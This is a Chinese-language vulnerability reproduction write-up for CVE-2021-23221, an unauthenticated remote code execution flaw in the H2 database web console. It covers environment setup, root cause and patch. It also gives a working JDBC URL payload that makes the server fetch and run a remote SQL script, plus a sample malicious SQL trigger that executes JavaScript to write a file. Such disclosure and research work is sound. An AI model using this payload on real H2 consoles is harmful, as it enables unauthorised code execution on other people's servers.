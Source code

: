 - [CVE-2021-23221 H2 未授权远程代码执行](#cve-2021-23221-h2-未授权远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [复现](#复现)
    - [步骤](#步骤)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2021-23221 H2 未授权远程代码执行
## 影响版本
H2 Version < v2.1.210
## 环境搭建
以mvn为例
1. 修改poc.xml文件,添加springboot和h2依赖.
```xml
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <scope>runtime</scope>
            <version>2.0.204</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-web</artifactId>
            <version>5.3.14</version>
        </dependency>
    </dependencies>
```
2. 修改application.properties文件,开启h2console访问
```xml
spring.h2.console.settings.web-allow-others=true
```
3. 启动Sprringboot,访问h2Console控制台。
![](2.png)
## 原理分析
默认情况下当H2使用嵌入式URL指定数据库时,指定一个不存在的数据库时会默认创建一个空的数据库。官方说明如下  
![](6.png)
而嵌入式URL中支持内存数据库,而且在连接时可以从SQL文件中执行SQL语句进行初始化,而该SQL文件的路径可以是远程的HTTP路径。
![](7.png)
而h2的SQL语法中又支持执行JAVA代码导致RCE。
相关代码如下:
![](8.png)
![](9.png)
## 复现
Payload
```
jdbc:h2:mem:1337;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM ' http://172.17.92.236:8081/poc.sql';'\
```
其中`http://172.17.92.236:8081/poc.sql`替换为要执行的恶意sql文件访问路径.  

恶意sql文件内容示例,该sql语句将在`E:\tmep\`下创建文件poctest。
```sql
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("E:\\temp\\poctest");';

INSERT INTO TEST VALUES (1);
```
### 步骤
在JDBC URL 中输入Payload,点击Connect。
![](1.png)
页面刷新后,再次点击Connect,即可触发SQL语句执行,成功写入文件。

![](3.png)
## 补丁
官方已修复该漏洞,升级H2版本到v2.1.210+即可。
增加了一个标志位来防止指定数据库不存在时建立空的数据库。
![](4.png)
![](5.png)
## 参考
https://h2database.com/html/features.html?highlight=mem&search=mem#in_memory_databases  
https://github.com/h2database/h2database/compare/version-2.0.206...version-2.1.210  
https://packetstormsecurity.com/files/165676/H2-Database-Console-Remote-Code-Execution.html